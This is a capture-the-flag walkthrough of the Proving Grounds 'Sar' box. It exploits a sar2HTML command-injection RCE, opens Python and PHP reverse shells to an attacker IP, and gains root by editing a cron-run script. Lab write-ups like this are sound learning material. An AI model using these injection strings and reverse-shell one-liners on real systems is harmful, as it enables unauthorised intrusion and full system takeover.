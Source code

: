 ```yaml
---
layout: posts
author_profile: false
title: Sar Walkthrough
---
```

### A step-by-step walkthrough of the box **"Sar"** exploit sar2HTML via Remote Code Execution (RCE)
- **Box Location:** Offensive Security Proving Grounds
- **Difficulty Rating:** Easy

- - - 

### Scanning
> nmap -sS [ip range]

- identify open ports
- open ip address in browser
  * shows default Apache page
- run a directory brute force
> gobuster
- identifies robot.txt
  * text file says **sar2HTML**
  * try running in browser: http://ipaddress/sar2HTML/
  * shows that it is a tool running on the server
- - -
### Research
- Research to find **sar2HTML** exploit
  * Exploit-DB shows Sar2HTML 3.2.1 has an RCE (no CVE)
  * Exploit = *http:192.168.1.24/sar2HTML/index.php?plot=;your-command*
    * Example: **http:192.168.1.24/sar2HTML/index.php?plot=; cat /etc/passwd**
- - - 
### Now I want a reverse shell
- At least a few options:
 1. Use Python or Perl command to take reverse shell
 2. Metaploit to create a reverse connectdion file and u pload it on target using wget 
 3. If target has NetCut utility, it can take the reverse connection

### Attempt NetCut utility
  - Run nc command to see if it has output
    - > nc -help
    - any return on output means it is available (does not work here)
### Attempt Python or Perl package
  - Run python help command to verify any output
    - > python3 --help
    - This works
  - Example command used with RCE:
    - > python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);
    - > nc -lvp 1234
  - Gain stable shell access:
    - > python3 -c ‘import pty;pty.spawn(“/bin/bash”)’
  - **user flag can be found here** (/home/love/Desktop/user.txt)
- - -
### Gain Root
  - Find exploits based on OS and kernel versions
    - no luck
  - Check weak file permission and processes
    - Found a **cron job** is being run as a root user
      - > cat /etc/crontab
    - Cron job = ***/5 * * * * root cd /var/www/html/ && sudo ./finally.sh**
    - Navigate to /var/www/html/ and see what is there
      - finally.sh is calling write.sh
      - write.sh is create a folder in temp directory
      - the command **ls -l** shows we can edit write.sh
      - Add a php reverse connection command into write.sh
        * > php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’
        * IP address = attacker machine (mine)
        * Setup listener **nc -lvp 4444**
        * Wait 5 mins for cron job
  - **root flag: cat /root/root.txt**

### Echo the php script into the write.sh file
> echo "php -r '\$sock=fsockopen(\"192.168.57.200\",4444);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
- echo requires a \ in front of a $ and " (probably more)




